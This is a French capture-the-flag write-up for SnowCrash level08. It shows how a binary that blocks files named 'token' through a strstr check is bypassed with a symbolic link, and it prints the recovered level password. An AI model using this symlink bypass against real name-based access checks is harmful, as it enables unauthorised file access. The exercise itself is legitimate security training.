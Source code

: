 # Level08

Encore un binaire:

```bash
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
```

Et un fichier 'token':
```bash
level08@SnowCrash:~$ cat token
cat: token: Permission denied
```

Nous entrons en premier paramètre le fichier 'token':

```bash
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Le binaire nous refuse l'accès au fichier token.

Regardons de plus près...

```bash
level08@SnowCrash:~$ strings ./level08 
...
strstr@@GLIBC_2.0
...
```

Le binaire ne semble ne pas utiliser 'access' ou d'autre fonction de sécurité, mais il utilise 'strstr'

Ce qui veut dire que nous pourrions peut-être contourner la sécurité en changeant le nom du fichier, par un lien symbolique, par exemple:

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/link
level08@SnowCrash:~$ ./level08 /tmp/link
quif5eloekouj29ke0vouxean
```

Nous récupérons le mot de passe de flag08 et obtenons le flag:

```bash
flag08@SnowCrash:~$ /bin/getflag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```
